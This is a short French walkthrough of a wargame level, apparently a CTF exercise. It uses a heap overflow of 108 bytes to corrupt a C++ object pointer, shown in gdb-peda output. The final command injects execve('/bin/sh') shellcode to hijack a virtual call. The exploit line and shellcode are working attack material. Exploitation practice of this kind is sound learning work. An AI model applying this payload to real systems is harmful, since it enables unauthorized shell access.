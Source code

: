 # Level 09

- On voit qu'une variable est executer en tant que fonction dans le code on comprends donc qu'il faut la remplacer
<pre>
gdb-peda$ r $(python -c "print('A' * 108 + 'BBBB')")

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
<strong>EAX: 0x42424242 ('BBBB')</strong>
EBX: 0x804ec20 ("BBBB")
ECX: 0x70 ('p')
EDX: 0x804ebb4 ('A' <repeats 108 times>, "BBBB")
ESI: 0xf7ddb000 --> 0x1e4d6c 
EDI: 0xf7ddb000 --> 0x1e4d6c 
EBP: 0xffffd4c8 --> 0x0 
ESP: 0xffffd4a0 --> 0x804ebb0 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
EIP: 0x8048682 (<main+142>:	mov    edx,DWORD PTR [eax])
EFLAGS: 0x10287 (CARRY PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048677 <main+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x804867c <main+136>:	mov    eax,DWORD PTR [esp+0x10]
   0x8048680 <main+140>:	mov    eax,DWORD PTR [eax]
=> 0x8048682 <main+142>:	mov    edx,DWORD PTR [eax]
   0x8048684 <main+144>:	mov    eax,DWORD PTR [esp+0x14]
   0x8048688 <main+148>:	mov    DWORD PTR [esp+0x4],eax
   0x804868c <main+152>:	mov    eax,DWORD PTR [esp+0x10]
   0x8048690 <main+156>:	mov    DWORD PTR [esp],eax
[------------------------------------stack-------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x08048682 in main ()
gdb-peda$ x $eax
0x42424242:	Cannot access memory at address 0x42424242
</pre>
- le programe segfault au moment de mettre le contenue de $eax dans la variable execute en tant que fonction donc on peut changer la fonction execute
- pour simuler le contenu d'une GOT on change edx par l'addresse de debut de str et on y met l'addresse du debut du shellcode
```
./level9 $(python -c "print('\x10\xa0\x04\x08' + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * 83 + '\x0c\xa0\x04\x08')")
```
